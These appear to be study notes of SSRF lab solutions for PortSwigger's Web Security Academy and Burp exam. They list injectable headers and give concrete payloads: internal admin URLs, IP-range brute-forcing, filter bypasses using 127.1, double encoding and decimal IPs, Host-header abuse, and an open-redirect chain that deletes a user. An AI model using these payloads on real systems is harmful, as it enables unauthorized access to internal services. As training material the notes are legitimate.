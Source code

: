 # WHERE to USE SSRF?

`Referer`, `Host`, `X-Forwarded-For`, `X-Forwarded-Host`, `X-Original-URL`, `X-Rewrite-URL`, 
`<img src="http://example.com/image.jpg">`, all inputs, parameters.

## SECRET PARAMETER:
```
GET /fetch?url=http://example.com/admin
```

## SSRF mostly with "Check stock"
In this lab they state the admin interface is at `http://192.168.0.12:8080/admin` but in the Burp exam use the `localhost:6566`.

## Basic SSRF against the local server

stockApi parameter to http://localhost/admin

## Basic SSRF against another back-end system

1) stockApi parameter to http://192.168.0.1:8080/admin.
2) Add §. Payloads , change the payload type to Numbers, and enter 1, 255. Brute ip. Receive 200.

## Blind SSRF with out-of-band detection

1) Visit a product, intercept the request in Burp Suite.
2) Referer header, right-click and select "Insert Collaborator Payload" to replace the original domain.

## SSRF with blacklist-based input filter

1) `stockApi` parameter to `http://127.0.0.1/`.
2) `http://127.1/admin`.
3) If still not working, try to encode "a" with `%2561`.

## SSRF via flawed request parsing

```
GET https://YOUR-LAB-ID.web-security-academy.net/
Host: BURP-COLLABORATOR-SUBDOMAIN
```
Notice that when you do this, modifying the Host header no longer causes your request to be blocked.
Use the Host header to scan the IP range 192.168.0.0/24.

## SSRF with filter bypass via open redirection vulnerability

1) `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
2) Click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection.
3) Create URL `/product/nextProduct?path=http://192.168.0.12:8080/admin` and feed it to the `stockApi` parameter.
4) Delete user `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`.

# ByPasses:

## Bypassing filters by obfuscating URLs or using IP addresses in different formats (eg decimal, hexadecimal).

```
http://2130706433/admin
```
